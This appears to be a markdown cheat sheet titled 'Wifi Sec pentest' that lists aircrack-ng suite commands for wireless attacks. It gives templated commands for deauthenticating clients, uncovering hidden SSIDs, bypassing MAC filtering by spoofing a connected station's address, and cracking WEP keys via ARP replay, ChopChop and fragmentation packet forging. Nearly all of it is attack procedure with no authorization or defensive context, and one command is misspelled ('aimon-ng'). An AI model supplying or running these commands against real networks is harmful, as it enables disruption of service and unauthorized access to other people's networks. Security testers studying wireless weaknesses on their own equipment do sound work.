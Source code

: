 # Wifi Sec pentest

## Status of the wifi card
```
sudo iwconfig
```

## Monitor mode
```
aimon-ng start wlan1
```

```
iwconfig
```

## Scanning wifi
```
airodump-ng wlan1mon
```


## Scanning Wifi
```
sudo iwlist wlan1 scan
```

See link quality continuously on screen
```
watch -n 1 cat /proc/net/wireless
```

Using wavemon to scanning wifi
```
sudo apt install wavemon
```
```
sudo wavemon
```

## Mac Change:
```
ifconfig [intname] down
ifconfig [intname] hw ether [new_mac]
ifconfig [intname] up
```

## Set monitor mode:
```
iwconfig
ifconfig [intname] down
airmon-ng check kill
iwconfig [intname] mode monitor
iwconfig
ifconfig [intname] up 
ifconfig
```

## Sniffing wifi:
```
airodump-ng intname_mon
airodump-ng --bssid [bssid] --channel [channel#] --write [file] [intname_mon]
```

## Deauthentication Attack:
```
aireplay-ng --deauth [#DeauthPackets] -a [NetworkMAC] -c [targetMAC] [Interface]
```

## Hidden Networks
Check with airodump-ng, then run a deauth attack and then in airodump-ng on ESSID name should get the hidden network name.

Mac Auth Bypass:
- Check airodump and find the open networks.
- Get airodump on specific network.
- Get a Host to connect, and get the STATION MAC.
- Change MAC to the STATION MAC.
```
ifconfig [intname] down
sudo macchanger -m [mac_add] [int_name]
```

## WEP Cracking

Busy network:
- Capture a large number of packet/IVs
```
airodump-ng --bssid [bssid] --channel [channel#] --write [fileName] [intname_mon]
```
- Analyze the capture IVs and crack the key  (aircrack-ng)
```
aircrack-ng [fileName]
```
	key Found in HEX or ASCII
		
Idle network: (force the AP to generate new IVs) - Fake Authentication
- Capture a large number of packet/IVs
```
airodump-ng --bssid [bssid] --channel [channel#] --write [fileName] [intname_mon]
```
- Fake Authentication
```
aireplay-ng --fakeauth 0 -a [SSID_MAC] -h [ifconfig_8digits_unspec] [intname_mon]
```

Generate traffic:
ARP request replay
```
aireplay-ng --arpreplay -b [SSID_MAC] -h [ifconfig_8digits_unspec] [intname_mon]
```
- Analyze the capture IVs and crack the key  (aircrack-ng)
```
aircrack-ng [fileName]
```
	key Found in HEX or ASCII


	ChopChop Attacks
1. Capture a packet and determine its key stream
```
aireplay-ng --chopchop -b [SSID_MAC] -h [ifconfig_8digits_unspec] [intname_mon]
```
2. Forge a new packet
```
packetforge-ng  -0 -a [SSID_MAC] -h [ifconfig_8digits_unspec] -k 255.255.255.255 -l 255.255.255.255 -y [outFromLastStep.xor] -w [output]
```
3. Inject the forge packet into the traffic to generate new IVs.
```
aireplay-ng -2 -r [outFromLastStep] [intname_mon]
```
4. Analyze the capture IVs and crack the key  (aircrack-ng)
```
aircrack-ng [fileName]
```
	key Found in HEX or ASCII
	
	Fragmentation Attacks
1. Obtain PRGA (pseudo random generation algorithm)
```
aireplay-ng --fragment -b [SSID_MAC] -h [ifconfig_8digits_unspec] [intname_mon]
```
2. Forge a new packet
```
packetforge-ng  -0 -a [SSID_MAC] -h [ifconfig_8digits_unspec] -k 255.255.255.255 -l 255.255.255.255 -y [outFromLastStep.xor] -w [output]
```
3. Inject the forge packet into the traffic to generate new IVs.
```
aireplay-ng -2 -r [outFromLastStep] [intname_mon]
```
4. Analyze the capture IVs and crack the key  (aircrack-ng)
```
aircrack-ng [fileName]
```
	key Found in HEX or ASCII

